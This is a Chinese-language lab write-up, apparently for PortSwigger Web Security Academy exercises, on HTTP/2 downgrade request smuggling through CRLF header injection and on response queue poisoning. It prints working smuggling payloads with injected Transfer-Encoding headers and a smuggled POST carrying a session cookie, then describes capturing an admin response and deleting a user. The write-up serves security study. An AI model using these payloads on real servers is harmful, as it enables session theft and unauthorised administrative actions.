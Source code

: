 # 通过 crlf 注入实现的 H2.TE 和 H2.CL 漏洞

H2.TE 漏洞原理：H2 降级后数据包中存在提前闭合的 0\r\n\r\n 标志。

H2.CL 也可以通过 crlf 注入来实现。

### 实验（通过 crlf 注入实现的 H2.TE 和 H2.CL 漏洞）

**利用的时候，利用某个请求头注入其他请求头，然后请求体写在 Body 里。**

1. 目标不存在 H2.CL 漏洞：

![image-20250412173458968](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412173458968.png)

```
# 由上图可以看到 crlf 注入的 CL 没有覆盖成功
# 后端检测出来了两个 CL，一个使用户指定的（放在请求头或 crlf 注入）。
# 另一个是降级时自动生成的。
```

2. 目标存在 H2.TE 漏洞：（通过 crlf 注入使得后端服务器解析）

```
Foo: bar\r\n
Transfer-Encoding: chunked

0

SMUGGLED
```

![image-20250412151915303](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412151915303.png)

3. search 参数存在回显，那么直接将 normal 包拼接在 search 参数中。注意：一定要给一个 cookie，这样 search 参数才回显到目标 cookie 的页面。

```
foo: bar\r\n
Transfer-Encoding: chunked


0

POST / HTTP/1.1
Host: 0aa400b6043ee23ac9fc658100710075.web-security-academy.net
Cookie: session=d37CskCilwyUqTVMIbiz1t2egBMmUnF3; _lab_analytics=U5ARYf6FUyXeWyFvLm4pVYQAU0mdy7EAQYXd60jthKu2z0p2cU39xnEcQJaRPBSLGXDif4pHAkANL5ophLHLc06CMrHSeRFW5QStFXkol3CDKEw2pEi2lCgCcdyVmdqOXMQwVlZbHt5Gvn6LmJE7uap5GeFQnI5MfzQ0Yny2OXuFmRyId6xCxx02swAWytkxxhD30ulbTuY1dUYBFtJQDfqHeSvMr7z9hjt0G5qP6hPELWw6etVxVXwRhNIgpO4a
Content-Length: 828

search=x
```

![image-20250412163537921](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412163537921.png)

4. 使用 cookie 访问网页。

![image-20250412163637913](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412163637913.png)

### 通过 crlf 进行的响应队列中毒

通过 crlf 直接注入另外一个包。

当降级后，后端服务器在缓冲区中将看成两个包。

![image-20250412130235317](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412130235317.png)

1. 使用 crlf 注入到某个请求头中。

![image-20250412170328566](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412170328566.png)

2. 攻击者发送以上 attack 包。
3. 重新发送 normal 包，获得管理员响应。

![image-20250412171417784](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412171417784.png)

4. 使用此 cookie 删除用户。

![image-20250412171641624](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412171641624.png)

